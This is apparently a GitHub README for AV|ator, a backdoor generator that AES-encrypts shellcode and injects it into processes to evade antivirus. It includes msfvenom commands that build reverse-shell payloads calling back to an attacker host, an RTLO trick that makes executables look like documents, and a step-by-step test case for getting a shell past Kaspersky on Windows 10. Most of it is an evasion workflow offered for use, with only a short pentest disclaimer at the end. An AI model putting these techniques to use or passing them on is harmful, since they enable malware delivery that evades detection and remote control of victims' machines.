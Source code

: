 
# AV|ator

AV|ator is a backdoor generator utility, which uses cryptographic and injection techniques in order to bypass AV detection. More specifically:
- It uses AES encryption in order to encrypt a given shellcode 
- Generates an executable file which contains the encrypted payload
- The shellcode is decrypted and injected to the target system using various injection techniques 

[https://attack.mitre.org/techniques/T1055/]:

1. Portable executable injection which involves writing malicious code directly into the process (without a file on disk) then invoking execution with either additional code or by creating a remote thread. The displacement of the injected code introduces the additional requirement for functionality to remap memory references. Variations of this method such as reflective DLL injection (writing a self-mapping DLL into a process) and memory module (map DLL when writing into process) overcome the address relocation issue. 

2. Thread execution hijacking which involves injecting malicious code or the path to a DLL into a thread of a process. Similar to Process Hollowing, the thread must first be suspended.

### Usage

The application has a form which consists of three main inputs (See screenshot bellow):

https://ibb.co/X24mnzW

1.	A text containing the encryption key used to encrypt the shellcode 
2.	A text containing the IV used for AES encryption 
3.	A text containing the shellcode 

Important note: The shellcode should be provided as a C# byte array. 

The default values contain shellcode that executes notepad.exe (32bit). This demo is provided as an indication of how the code should be formed (using msfvenom, this can be easily done with the -f csharp switch, e.g. msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X  LPORT=XXXX -f csharp). 

After filling the provided inputs and selecting the output path an executable is generated according to the chosen options. 

### RTLO option

In simple words, spoof an executable file to look like having an "innocent" extention like 'pdf', 'txt' etc. 
E.g. the file "testcod.exe" will be interpreted as "tesexe.doc" 

Beware of the fact that some AVs alert the spoof by its own as a malware. 

### Set custom icon

I guess you all know what it is :)

### Bypassing Kaspersky AV on a Win 10 x64 host (TEST CASE) 

Getting a shell in a windows 10 machine running fully updated kaspersky AV 

#### Target Machine: Windows 10 x64 

1. Create the payload using msfvenom 

    msfvenom -p windows/x64/shell/reverse_tcp_rc4 LHOST=10.0.2.15 LPORT=443 EXITFUNC=thread RC4PASSWORD=S3cr3TP4ssw0rd -f csharp

2. Use AVIator with the following settings

    Target OS architecture: x64

    Injection Technique: Thread Hijacking (Shellcode Arch: x64, OS arch: x64) 

    Target procedure: explorer (leave the default)

3. Set the listener on the attacker machine

4. Run the generated exe on the victim machine



### Installation

**Windows:**

Either compile the project or download the allready compiled executable from the following folder:

https://github.com/Ch0pin/AVIator/tree/master/Compiled%20Binaries

**Linux:**

Install Mono according to your linux distribution, download and run the binaries

e.g. in kali:

root@kali# apt install mono-devel 

root@kali# mono aviator.exe


### Credits
To Damon Mohammadbagher for the encryption procedure

### Disclaimer 

I developed this app in order to overcome the demanding challenges of the pentest procedure and this is the only way that the app should be used. Make sure that you have the required permission to use it against a system and never use it for illegal purposes. 
I would suggest to avoid testing the executables on solutions like virus total e.t.c. If you want to use the application for pentesting purposes I am sure you have already identified the AV used by your target, so go download a demo and make your testing offline. 

And please remember:

### DO NOT UPLOAD ANY SAMPLES TO VIRUS TOTAL 

